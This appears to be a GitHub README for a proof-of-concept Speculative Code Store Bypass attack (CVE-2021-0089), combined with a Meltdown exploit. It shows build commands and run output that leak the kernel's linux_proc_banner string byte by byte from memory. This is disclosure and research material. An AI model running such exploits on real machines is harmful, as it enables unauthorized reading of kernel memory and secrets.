 # Speculative Code Store Bypass POC
Proof-of-Concept of the Speculative Code Store Bypass Vulnerability 

## Description
Speculative Code Store Bypass (SCSB) is a new transient execution attack which exploits the self-modifying code (SMC) mechanism in Intel processor. 
Intel published this vulnerability on 2021-06-08 and assigned it CVE-2021-0089. Look at their explainations for details:
https://software.intel.com/content/www/us/en/develop/articles/software-security-guidance/advisory-guidance/speculative-code-store-bypass.html.

We discoverd this vulnerability a long time ago and always used it as a novel way to suppress the fault in Meltdown-type attack. This POC is a demonstration. It is a little pity that we fail to disclose it in the first place. :( 
 
The Meltdown code borrowed in this POC is at:
https://github.com/paboldin/meltdown-exploit.

## Result
```
$ make
gcc -O3 -o scsb scsb.c

$ ./run.sh 
looking for linux_proc_banner in /proc/kallsyms
protected. requires root
+ find_linux_proc_banner /proc/kallsyms sudo
+ sudo sed -n -re s/^([0-9a-f]*[1-9a-f][0-9a-f]*) .* linux_proc_banner$/\1/p /proc/kallsyms
+ linux_proc_banner=ffffffff81800060
+ set +x
cached = 158, uncached = 404, threshold 208
read 25 % (score=913/1000)
read 73 s (score=904/1000)
read 20   (score=869/1000)
read 76 v (score=850/1000)
read 65 e (score=839/1000)
read 72 r (score=933/1000)
read 73 s (score=864/1000)
read 69 i (score=897/1000)
read 6f o (score=867/1000)
read 6e n (score=861/1000)
read 20   (score=789/1000)
read 25 % (score=809/1000)
read 73 s (score=883/1000)
read 20   (score=703/1000)
read 28 ( (score=856/1000)
read 62 b (score=774/1000)
read 75 u (score=770/1000)
read 69 i (score=682/1000)
read 6c l (score=856/1000)
read 64 d (score=698/1000)
read 64 d (score=776/1000)
read 40 @ (score=850/1000)
read 6c l (score=683/1000)
read 67 g (score=846/1000)
read 77 w (score=755/1000)
read 30 0 (score=725/1000)
read 31 1 (score=830/1000)
read 2d - (score=827/1000)
read 34 4 (score=766/1000)
read 33 3 (score=791/1000)
read 29 ) (score=736/1000)
read 20   (score=699/1000)
```
